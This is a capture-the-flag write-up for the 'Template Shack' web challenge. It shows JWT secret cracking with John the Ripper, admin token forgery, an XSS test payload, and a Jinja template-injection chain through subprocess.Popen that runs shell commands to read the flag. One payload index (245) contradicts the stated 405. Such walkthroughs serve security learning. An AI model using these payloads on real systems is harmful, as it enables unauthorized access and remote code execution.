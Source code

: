 
---

# Template Shack


Writeup by: [SinDaRemedy](https://github.com/SinDaRemedy)

Team: [OnlyFeet](https://ctftime.org/team/144644)

Writeup URL: [GitHub](https://infosecstreams.github.io/csaw21/Template_Shack/)

---

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%205.03.40%20AM.png)

## Initial Research

When I entered the site the first thing i noticed was the login portal. I inspected the page source, clicked on sb admin 2 to see if I'd find anyting interesting but there was nothing to be found. 

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%204.11.55%20AM.png)

Of course, as most of us would do, I tried to login in with the common default creds and then proceeded to look for other vectors.  Checked out the browser inspector and burpsuite  and realized there was a token in the cookies. 

I made note of the server and checked for vulnerabilities for Python 3.6.9 then found [**CVE-2019-16935**](https://nvd.nist.gov/vuln/detail/CVE-2019-16935#vulnCurrentDescriptionTitle) and a weakness enumeration for XSS at [**CWE-79**](http://cwe.mitre.org/data/definitions/79.html)

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%204.26.54%20AM.png)

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%2012.49.18%20AM.png)

Since token-based authentication doesn't require that the server know about the session data and I had a hash I figured this would be a possible attack vector. I made a file with the token and and decoded the hash with John-the-Ripper (john).  We cracked the hash and the password was "**supersecret**"

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%201.22.07%20AM.png)

At the same time I was also working on decoding and creating a new web token for the admin. I changed the guest to admin and entered the password in order to get my new hash.

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%2012.48.59%20AM.png)

## Initial Access/Testing

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%204.31.10%20AM.png)

Then it was time for the next logical step.. Let's see if this exploit actually works!

First thing I wanted to see is if I can get an XSS alert

``` Javascript
username=<Script Language="Javascript">alert("You've been attacked!");</Script>
```

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%201.24.59%20AM.png)

Then I wanted to see if we could get a Server Side Template Injection with jinja by doing some basic math. 

``` python
{{7*7}}
```

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%201.22.55%20AM.png)

## Payload 

Immediately after started to craft a payload with a couple of things in mind. 

- The goal was to get command execution
- One thing I knew was python **metadata properties can be accessed through any object. **
	- I needed to first start with accessing the "**__class__**" from the metaproperties.
		- Then proceed to accessing the Method Resolution Object (**MRO**) since from there I could start to enumerate the hierarchy and subclasses. 
		- From the subclasses we have to try to gain access to a class that will allow us to execute commands

**All payloads are entered after the url as a path**

``` python
{{''.__class__}}
```

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%202.31.10%20AM.png)
``` python
{{''.__class__.__mro__}}
```

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%203.41.32%20AM.png)

```python
{{' '.__class__.__mro__[0].__subclasses__()}}
```

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%202.40.48%20AM.png)

```python
{{''.__class__.__mro__[1].__subclasses__()}}
```

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%202.42.39%20AM.png)
I copied and pasted all the output in to "subclasses.txt".  cleaned up the data so that it was more manageable. 

``` shell
cat subclasses.txt| tr ',' '\n' > subclasses_new.txt
```

Since the goal of this payload is to [execute a command through the shell](https://docs.python.org/2/library/subprocess.html#popen-constructor) I wanted to begin searching for the **Popen** class. I filtered the search in "subclasses_new.txt" for "Popen" and seen that  "subprocess.Popen" was indexed as #405 on the list (Starting with 0). 

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%203.04.35%20AM.png)

I confirmed that it was the indexed as 405 in the list by adding it to the to the payload. 

``` python
{{[].__class__.__mro__[1].__subclasses__()[245]}}

<class 'subprocess.Popen'>
```

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%203.33.26%20AM.png)

After making note of that I continued to modify the script as shown below and test the command execution.

``` python
{{[].__class__.__mro__[1].__subclasses__()[405]('ls -la',shell=True,stdout=-1).communicate()[0].strip()}}
```

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%203.40.04%20AM.png)

You can see that flag.txt is in the current directory so now all there was to do was change the command in order to retrieve the flag. So we change "ls -la" to "cat flag.txt" 

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%204.06.11%20AM.png)

## Victory!!

Now to submit the flag!

flag{easy_jinja_SSTI_RCE}

